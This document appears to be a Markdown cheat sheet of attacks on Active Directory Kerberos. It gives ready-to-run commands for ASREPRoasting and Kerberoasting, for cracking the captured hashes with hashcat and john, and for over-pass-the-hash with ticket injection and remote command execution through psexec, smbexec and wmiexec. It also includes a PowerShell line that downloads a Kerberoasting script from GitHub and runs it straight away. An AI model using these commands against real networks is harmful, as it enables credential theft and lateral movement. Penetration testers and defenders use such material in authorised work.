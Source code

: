 
#### ASREPRoast with [impacket](https://github.com/SecureAuthCorp/impacket)
```
cp /usr/share/doc/python3-impacket/examples/GetNPUsers.py . # Users that do not require kerberos preauth
sudo python3 GetNPUsers.py box.local/ -dc-ip $(cat ip) -usersfile userlist.smb -format john -outputfile hashes.getnpusers

```

#### hash cracking
```
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>
hashcat -m 13100 -a 0 hash.krb wordlists/rockyou2021.txt --force --potfile-disable
hashcat -m 7500 hash.txt -D 2 -o result_hash.txt -O -w 3 -a 3 wordlists/rockyou2021.txt
john --wordlist=<passwords_file> <AS_REP_responses_file>
john --format:krb5tgs hash.krb --wordlist=/usr/share/wordlists/rockyou.txt

```

#### Kerberoast
```
# impacket
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
sudo python3 GetUserSPNs.py box.local/owned_user -dc-ip $IP -request

# powershell
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>

# Rubeus

.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>

```

#### [Over pass the hash](https://www.hackingarticles.in/lateral-movement-over-pass-the-hash/)
```
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>

# Request the TGT with aesKey (more secure encryption & stealth)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>

# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]


# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

# OR with Rubeus and PSExec

# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt
```